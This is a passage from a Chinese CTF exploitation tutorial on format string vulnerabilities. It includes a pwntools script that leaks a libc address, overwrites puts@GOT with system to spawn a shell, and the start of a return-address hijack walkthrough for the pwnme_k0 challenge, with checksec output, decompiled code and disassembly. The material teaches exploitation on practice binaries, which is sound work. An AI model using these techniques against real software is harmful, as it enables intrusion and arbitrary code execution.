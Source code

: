```python
name()

# 泄露puts_got
#put("test",p32(puts_got)+"%7$s")
#puts_addr=u32(get("test")[4:8])

put("test","%8$s"+p32(puts_got))
puts_addr=u32(get("test")[:4])
print ("puts_addr: "+ hex(puts_addr))

# 通过libc偏移计算system函数的地址
libc_base=puts_addr-libc.symbols['puts']
system_addr=libc_base+libc.symbols['system']

# payload:将puts_got修改成system_addr
payload = fmtstr_payload(7, {puts_got: system_addr})

# 写入/bin/sh和payload
put("/bin/sh;",payload)

# 通过get触发格式化字符串漏洞
r.sendline("get")
r.recvuntil("enter the file name you want to get:")
r.sendline("/bin/sh;")

#由于got表已经被覆写，实际上执行的是system("/bin/sh")
dir()

r.interactive()
```

### hijack retaddr
利用格式化字符串漏洞来劫持程序的返回地址到我们想要执行的地址，以[三个白帽-pwnme_k0](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/%E4%B8%89%E4%B8%AA%E7%99%BD%E5%B8%BD-pwnme_k0)为例

程序开启了NX和Full RELRO，这样就无法使用shellcode和修改got表
```c
gnq@gnq:~/test$ checksec pwnme_k0
[*] '/home/gnq/test/pwnme_k0'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
用IDA可以发现程序的`Sh0w Account Infomation`存在格式化字符串漏洞
```c
int __fastcall sub_400B07(char format, __int64 a2, __int64 a3, __int64 a4, __int64 a5, __int64 a6, char formata, __int64 a8, __int64 a9)
{
  write(0, "Welc0me to sangebaimao!\n", 0x1AuLL);
  printf(&formata, "Welc0me to sangebaimao!\n");
  return printf(&a9 + 4); //格式化字符串漏洞
}
```
而且程序中还可以直接调用system("/bin/sh")，那么只需要将返回地址控制到0x4008A6就可以getshell了
```c
.text:00000000004008A6 sub_4008A6      proc near
.text:00000000004008A6 ; __unwind {
.text:00000000004008A6                 push    rbp
.text:00000000004008A7                 mov     rbp, rsp
.text:00000000004008AA                 mov     edi, offset command ; "/bin/sh"
.text:00000000004008AF                 call    system
.text:00000000004008B4                 pop     rdi
```